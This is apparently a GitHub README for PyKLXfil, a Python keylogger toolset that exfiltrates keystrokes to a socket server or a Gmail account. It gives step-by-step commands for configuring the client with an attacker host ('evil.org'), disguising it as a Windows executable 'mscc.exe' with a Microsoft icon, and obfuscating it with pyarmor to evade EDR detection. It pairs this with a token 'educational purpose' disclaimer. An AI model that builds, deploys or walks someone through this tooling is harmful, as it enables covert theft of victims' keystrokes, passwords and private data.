 # PyKLXfil: Python Keylogger and Exfiltrator.
## The toolset contains four main tools:
* PyKLXfil-Server: a socket server to recieve the exfiltrated data from a victem.
* PyKLXfil-Client: the agent that will perform the encoded key logging with a custome base64 table and the exfiltration of data back to PyKLXfil-Server.
* PyKLXfil-Client-mail: a standalone agent that will perform encoded key logging with a custome base64 table and exfiltration to a gmail email account (more stealthy).
* PyKLXfil-Decoder: a tool to decode the key logs.
#### Disclaimer: For educational purpose, use at your own responsibility.
## Install:
```sh
  git clone https://github.com/iD4rksid3/PyKLXfil.git
  cd PyKLXfil
  #The tool requires only two external modules: yagmail and pynput
  pip3 install -r requirements.txt
  ```
## Usage:
### Key logging and exfiltration using socket server and client:
* On the server, start listening on all NICs and on port 443 as background job:
```sh
python3 PyKLXfil-Server.py 0.0.0.0 443 &
```
* For the client, edit PyKLXfil-Client.py and add your server's IP/domain and port then compile and obfuscate the script for a windows machine:
```sh
 nano PyKLXfil-Client.py
 #snip...       
 #self.host = 'evil.org'
 #self.port = 4444
 ```
 * Make Windows executable client by either of the ways:
 1. obfuscated Windows executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client.py -n mscc.exe
 ```
 OR:
 
 2. Compile the script to exe using pyinstaller:
```sh
pyinstaller --onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32 -n mscc.exe PyKLXfil-Client.py
```
* Once the client is deployed on a Windows machine it will start key logging and exfiltrate them back to the server.
### Key logging and exfiltration using gmail (more stealthy):
* You will first need to get app password token to be used in the script, a good guide can be found [here](https://towardsdatascience.com/automate-sending-emails-with-gmail-in-python-449cc0c3c317)
```sh
nano PyKLXfil-Client-mail.py
 #snip...       
  #user = 'example@gmail.com'
  #app_password = 'qweertyuiop12345678'
  #to = 'example@gmail.com'
```
* Make Windows executable client with either:
1. Make obfuscated executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pip3 install pyinstaller
 pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client-mail.py -n mscc.exe
 ```
 OR:
 
2. Compile the script to exe using pyinstaller:
```sh
pyinstaller --onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32 -n mscc.exe PyKLXfil-Client-mail.py
```
 * After recieving the encoded log files from the client or the mail-client, PyKLXfil-Decoder.py can be used to decode them:
```sh
python3 PyKLXfil-Decoder.py xxxx.log
#will result in a decoded file Decoded-xxxx.log
```
## License

Distributed under the MIT License. See `LICENSE` for more information.
